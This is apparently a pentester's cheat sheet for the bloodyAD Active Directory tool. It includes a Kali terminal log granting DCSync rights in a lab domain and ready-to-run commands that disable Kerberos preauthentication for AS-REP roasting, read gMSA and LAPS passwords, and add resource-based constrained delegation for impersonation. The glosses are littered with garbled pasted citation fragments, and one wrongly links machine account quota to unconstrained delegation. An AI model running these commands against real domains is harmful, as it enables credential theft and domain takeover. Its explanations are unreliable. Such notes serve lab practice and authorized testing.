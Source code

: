 add dcsynd perms to user
```sh
┌──(fixit42㉿kali)-[~/boxes]
└─$ bloodyAD --host 10.10.232.197 -d spookysec.local -u backup -p backup2517860 add dcsync newuser3
[+] newuser3 is now able to DCSync
```
### To test

Set "DONT_REQ_PREAUTH" (for AS-REP roast)

bloodyAD -u Administrator -d bloody.local -p Password512! --host 192.168.10.2 add uac john.doe DONT_REQ_PREAUTH

Clear the ACCOUNTDISABLE flag

bloodyAD -u Administrator -d bloody.local -p Password512! --host 192.168.10.2 remove uac john.doe ACCOUNTDISABLE

Reactivates a previously disabled account
notes.incendium.rocks+1Kali Linux Tutorials+1
.

Read GMSA managed password

bloodyAD -u john.doe -d bloody.local -p Password512! --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword

Exfiltrate managed service account credentials
Kali Linux Tutorials+2notes.incendium.rocks+2GitHub+2
.

Retrieve LAPS password for a computer account

bloodyAD -u john.doe -d bloody.local -p Password512! --host 192.168.10.2 get object 'COMPUTER$' --attr ms-Mcs-AdmPwd

Extracts the local admin password of computers managed via LAPS
Kali Linux Tutorials+2notes.incendium.rocks+2GitHub+2
Kali Linux Tutorials
.

Identify machine account creation quota

bloodyAD -u john.doe -d bloody.local -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr ms-DS-MachineAccountQuota

Indicates how many new machine accounts you can create (unconstrained delegation)
docs.cryeye.net
BorderGate+1GitHub+1
.

Add Resource-Based Constrained Delegation (RBCD)

bloodyAD -d dev.admin.offshore.com --host 172.16.2.6 -u Joe -p :<nt-hash> add rbcd DC02$ joe

Grants impersonation rights — enabling S4U2proxy attacks
Siberoloji+15notes.incendium.rocks+15GitHub+15
.
